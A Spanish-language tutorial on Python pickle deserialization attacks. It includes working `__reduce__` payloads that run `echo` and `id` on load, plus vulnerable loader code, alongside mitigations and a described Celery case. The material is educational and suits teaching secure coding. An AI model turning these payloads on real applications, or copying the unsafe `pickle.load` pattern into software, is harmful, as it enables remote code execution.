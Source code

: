 
---
# Python – Ataque de Deserialización Pickle (DES-Pickle)

## ¿Qué es un Ataque de Deserialización Pickle?

Un **Ataque de Deserialización Pickle (DES-Pickle)** ocurre cuando una aplicación en Python utiliza la biblioteca `pickle` para deserializar datos que pueden ser manipulados por un atacante.

Pickle es una biblioteca estándar de Python usada para serializar y deserializar objetos. Sin embargo, su gran poder es también su gran riesgo: permite la reconstrucción de objetos arbitrarios, incluidas funciones y clases, lo que puede derivar en ejecución remota de código si se usa con datos no confiables.

## ¿Cómo se explota?

Cuando un atacante puede controlar o modificar el contenido serializado (`pickle`), puede inyectar instrucciones que se ejecutan al momento de deserializar. Esto se debe a que `pickle.load()` ejecuta directamente los métodos definidos en la representación del objeto, como `__reduce__()` o `__setstate__()`.

### Código vulnerable:

```python
import pickle

with open("entrada.pkl", "rb") as f:
    datos = pickle.load(f)  # ¡Vulnerable!
````

Si el archivo `entrada.pkl` fue manipulado, podría contener código malicioso que se ejecutará automáticamente.

---

## Ejemplo de payload malicioso

### Generación del payload:

```python
import pickle
import os

class Pwn:
    def __reduce__(self):
        return (os.system, ("echo Pwned con Pickle",))

with open("payload.pkl", "wb") as f:
    pickle.dump(Pwn(), f)
```

Este payload ejecuta `echo Pwned con Pickle` cuando se deserializa.

### Código que deserializa y ejecuta el payload:

```python
import pickle

with open("payload.pkl", "rb") as f:
    obj = pickle.load(f)
```

Cuando `pickle.load(f)` se ejecuta, el sistema lanza el comando especificado, demostrando ejecución remota de código.

---

## Riesgos

- **Ejecución remota de código (RCE)**.
    
- **Robo de información sensible**.
    
- **Alteración del comportamiento de la aplicación**.
    
- **Denegación de servicio (DoS)**.
    
- **Escalada de privilegios si la app corre como root**.
    

---

## Mitigaciones

- **No utilizar Pickle con entradas de usuarios no confiables**.
    
- Preferir formatos seguros como **JSON** o **YAML con `safe_load()`**.
    
- Si se debe usar Pickle, aplicar controles previos a la deserialización (hashes, firmar los datos, validación estricta).
    
- Ejecutar deserialización en entornos aislados (sandbox).
    
- Auditar el uso de `pickle.load()` en proyectos.
    

---

## Caso práctico

Archivo `payload.pkl` generado por un atacante:

```python
import pickle
import subprocess

class Exploit:
    def __reduce__(self):
        return (subprocess.check_output, (["id"],))

pickle.dump(Exploit(), open("exploit.pkl", "wb"))
```

El atacante entrega `exploit.pkl` a una app vulnerable. Al deserializarlo:

```python
import pickle

data = pickle.load(open("exploit.pkl", "rb"))
print(data.decode())
```

La aplicación imprime la salida del comando `id`, demostrando la ejecución de código en el sistema.

---

## Caso real

En 2011, el sistema de mensajería de Python llamado Celery contenía un endpoint que aceptaba objetos serializados en Pickle. Un investigador demostró que podía enviar un objeto modificado que, al deserializarse, ejecutaba comandos arbitrarios en los servidores, logrando una shell remota. El problema fue corregido migrando a JSON y añadiendo firmas digitales a los mensajes.

---

## Conclusión

Las funciones de deserialización como `pickle.load()` deben ser usadas con extrema precaución. Si una aplicación procesa objetos Pickle que provienen de usuarios o fuentes externas, debe considerarse vulnerable. Como pentesters, debemos buscar endpoints o funciones que cargan archivos `.pkl`, cadenas codificadas en base64 o estructuras serializadas para verificar vectores de ejecución de código.

---
